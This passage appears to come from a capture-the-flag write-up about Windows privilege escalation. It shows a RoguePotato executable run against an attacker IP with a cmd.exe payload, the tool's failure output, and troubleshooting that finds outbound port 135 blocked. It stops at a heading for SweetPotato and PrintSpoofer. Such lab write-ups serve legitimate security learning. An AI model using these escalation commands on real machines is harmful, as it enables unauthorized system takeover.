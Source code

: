 After uploading it, starting the `socat` redirector, and running it,
there's never a connection back:



    PS C:\programdata> .\rp.exe -r 10.10.14.15 -e "cmd.exe /c ping 10.10.14.15" -l 9999
    [+] Starting RoguePotato...
    [*] Creating Rogue OXID resolver thread
    [*] Creating Pipe Server thread..
    [*] Creating TriggerDCOM thread...
    [*] Starting RogueOxidResolver RPC Server listening on port 9999 ...
    [*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
    [*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}                  
    [*] IStoragetrigger written:104 bytes
    [-] Named pipe didn't received any connect request. Exiting ...  



Some troubleshooting shows that it looks like outbound TCP 135 is
blocked. When I try to connect back on 80, it works:



    PS C:\Users\sonny> wget 10.10.14.15/test -usebasicparsing


    StatusCode        : 200
    StatusDescription : OK
    Content           : {116, 101, 115, 116...}
    RawContent        : HTTP/1.0 200 OK
                        Content-Length: 10
                        Content-Type: application/octet-stream
                        Date: Tue, 25 May 2021 19:00:38 GMT
                        Last-Modified: Tue, 25 May 2021 19:01:16 GMT
                        Server: SimpleHTTP/0.6 Python/3.9.2

                        t...
    Headers           : {[Content-Length, 10], [Content-Type, application/octet-stream], [Date, Tue, 25 May 2021 19:00:38 GMT], [Last-Modified, Tue, 25 May 2021 19:01:16 GMT]...}
    RawContentLength  : 10



But if I change the webserver and the request to 135, it fails to
connect:



    PS C:\Users\sonny> wget 10.10.14.15:135/test -usebasicparsing
    wget : Unable to connect to the remote server 
    At line:1 char:1
    + wget 10.10.14.15:135/test -usebasicparsing
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : InvalidOperation: (System.Net.HttpWebRequest:HttpWebRequest) [Invoke-WebRequest], WebException
        + FullyQualifiedErrorId : WebCmdletWebResponseException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand



#### SweetPotato / PrintSpoofer
